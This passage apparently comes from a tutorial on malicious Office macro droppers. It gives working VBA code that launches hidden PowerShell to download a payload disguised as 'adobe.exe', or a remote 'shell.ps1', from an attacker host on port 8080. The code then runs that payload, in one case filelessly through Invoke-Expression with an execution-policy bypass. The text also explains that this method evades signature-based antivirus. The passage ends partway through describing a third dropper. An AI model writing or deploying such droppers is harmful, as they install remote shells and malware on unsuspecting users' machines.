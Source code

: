 **Step-by-Step Execution**

1. **Creates an instance of** `WScript.Shell` for executing system commands.
2. **Runs PowerShell** with `Invoke-WebRequest` to **download a payload (**`adobe.exe`**)** from `http://<ip>:8080/`[.](http://192.168.2.24:8080/.)
3. **Saves the payload** to `C:\Users\Public\adobe.exe`(common folder for persistence).
4. **Executes the downloaded file** using `Start-Process`.
5. **Runs in hidden mode** (`0` parameter ensures no visible console window).

**Use Case**: This method **writes a payload to disk** before execution.

* * *

#### 3. `FileLessDropper()` - Fileless PowerShell Execution

```
Sub FileLessDropper()
    Dim psdropper As Object
    Set psdropper = CreateObject("WScript.Shell")
    psdropper.Run "powershell.exe -NoProfile -ExecutionPolicy Bypass -Command ""IEX(New-Object Net.WebClient).DownloadString('http://<ip>:8080/shell.ps1')""" ,0,False
End Sub
```

**Step-by-Step Execution**

1. **Creates a** `WScript.Shell` **object** to execute PowerShell.
2. **Runs PowerShell in bypass mode** (`-ExecutionPolicy Bypass` avoids script execution restrictions).
3. **Uses** `IEX (Invoke-Expression)` **to execute a remote script** directly in memory.
4. **Fetches and executes** `shell.ps1` **from** `http://<ip>:8080/`[.](http://192.168.2.24:8080/.)
5. **No files are written to disk** (entire execution remains in memory).

**Use Case**:

- Completely **fileless execution**.
- Harder to detect by **signature-based AVs**.
- **Common in modern malware and penetration testing frameworks** (e.g., Metasploit, Empire, Cobalt Strike).

* * *

#### 4. `DynamicDropper()` - Flexible Payload Storage Location

```
Sub DynamicDropper()
    Dim dropper As Object
    Set dropper = CreateObject("WScript.Shell")
    downloadPath = Environ("TEMP") & "\adobe.exe"
    dropper.Run "powershell.exe -Command ""Invoke-WebRequest -Uri 'http://<ip>:8080/adobe.exe' -OutFile '" & downloadPath & "' ; Start-Process '" & downloadPath & "'""" ,0,False
End Sub
```

**Step-by-Step Execution**
